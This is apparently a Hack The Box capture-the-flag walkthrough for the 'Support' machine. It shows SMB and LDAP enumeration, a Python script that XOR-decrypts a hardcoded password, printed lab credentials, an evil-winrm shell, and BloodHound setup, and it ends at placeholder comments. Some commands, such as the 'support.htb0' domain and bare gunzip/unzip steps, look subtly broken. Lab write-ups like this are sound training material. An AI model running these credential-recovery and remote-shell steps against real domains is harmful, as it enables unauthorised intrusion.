 
# HTB Support Walkthrough

## Enumeration

Running nmap on the machine, we got:

```bash
nmap -sC -sV -oA nmap/Support 10.10.11.174
```
![alt text](image-1.png)

Looking at the results, we can see that smb and Active Directory servies are open. The ldap scan is also leaking a domain called support.htb0.

Added it to our hosts file:

```bash
echo "10.10.11.174 support.htb0" | sudo tee -a /etc/hosts
```

Using `smbclient`, access the machine:

```bash
smbclient -L \\support.htb0
smbclient \\support.htb0\support-tools
```

Download and unzip the `UserInfo.exe.config` file into the attacker's machine:

```bash
mget Userinfo.exe.config
unzip UserInfo.exe.config
```

We need to decompile it using **ILSpy**, which can be downloaded through this link:

```bash
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

### XOR Logic for Decryption

The password is encrypted using XOR logic with the key `"armando"`.

Key Points:
- **XOR Logic**: The `^` operator performs a bitwise XOR. XORing the same value twice restores the original data: `a ^ b ^ b = a`.
- **Key Cycling**: `key[i % key.Length]` allows the key to "wrap around" when the password bytes exceed the key length.
- **Obfuscation**: The combination of Base64 encoding and XOR operations makes the password harder to discover.

### Python Script for Decryption

We can decrypt the password with a Python script:

```python
import base64

# Encoded password and key
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"

# Step 1: Base64 decode
decoded_bytes = base64.b64decode(enc_password)

# Step 2: XOR decryption logic
key_bytes = key.encode('ascii')
decrypted_bytes = bytearray()

for i in range(len(decoded_bytes)):
    decrypted_byte = (decoded_bytes[i] ^ key_bytes[i % len(key_bytes)]) ^ 0xDF
    decrypted_bytes.append(decrypted_byte)

# Step 3: Convert the result to a string
try:
    password = decrypted_bytes.decode('utf-8')
    print("Recovered Password:", password)
except UnicodeDecodeError:
    print("Failed to decode decrypted bytes. Output may be binary:", decrypted_bytes)
```

### Output:
```bash
python3 recoverpass.py 
Recovered Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

#### Credentials
```
support//ldap:0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Exploitation

Now that we have the credentials, let's try searching the machine using LDAP.

If `ldapsearch` doesn't work, use `impacket-GetADUser` instead:

```bash
impacket-GetADUsers -all support.htb/ldap -dc-ip support.htb0
```

Alternatively, use **Apache Directory Studio** for a better view of the AD:

```bash
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
sudo gunzip
sudo tar -xvf
./Apache-Directory-Studio
```

Connect to the AD using LDAP user credentials:

- **Bind DN**: `ldap@support.htb`
- **Password**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

#### Credentials for `support` user:
```
support:Ironside47pleasure40Watchful
```

Now establish a shell using **Evil-WinRM**:

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation

Check if the machine is a Domain Controller:

```bash
Get-ADDomain
```

The `InfrastructureMaster` is `dc.support.htb`.

Identify if the user is a member of any groups:

```bash
whoami /groups
```

### Install BloodHound

To identify possible attack paths, install **BloodHound**:

```bash
sudo apt install -y neo4j
sudo neo4j start
```

Download **BloodHound** from here:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
unzip the file
./BloodHound --no-sandbox
```

Change the password at `http://localhost:7474`:

- **Credentials**: `neo4j:S@mara1230`

### Collect Data with SharpHound

Now clone BloodHound AD to use `SharpHound.exe`:

```bash
python3 -m http.server
```

In the Evil-WinRM session, fetch `SharpHound.exe`:
```bash
# Download SharpHound.exe
```

```bash
# [Use BloodHound tools to continue]
```

